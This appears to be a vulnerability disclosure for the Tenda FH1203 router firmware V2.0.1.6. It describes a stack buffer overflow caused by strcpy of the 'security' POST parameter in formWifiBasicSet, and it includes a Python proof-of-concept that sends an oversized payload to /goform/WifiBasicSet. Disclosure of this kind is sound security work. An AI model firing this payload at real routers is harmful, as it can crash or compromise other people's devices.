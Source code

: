 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `formWifiBasicSet` function. The `v30` variable receives the `security` parameter from a POST request and is later assigned to the `v33` variable, which is fixed at 256 bytes. However, since the user can control the input of `security`, the statement `strcpy(v33, v30);` can cause a buffer overflow. The user-provided `security` can exceed the capacity of the `v33` array, triggering this security vulnerability.

![image-20240319221819491](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221819491.png)

![image-20240319221952603](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319221952603.png)

![image-20240319222011509](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319222011509.png)

## PoC

```python
import requests
from pwn import *

url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {
    'security_5g':'1', 
    'hideSsid':'1', 
    'ssid':'1',
    'security':payload, 
    'wrlPwd':'1', 
    'hideSsid_5g':'1', 
    'ssid_5g':'1', 
    'wrlPwd_5g': '1'
}

requests.post(url, data=data)
```

![image-20240304213056127](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304213056127.png)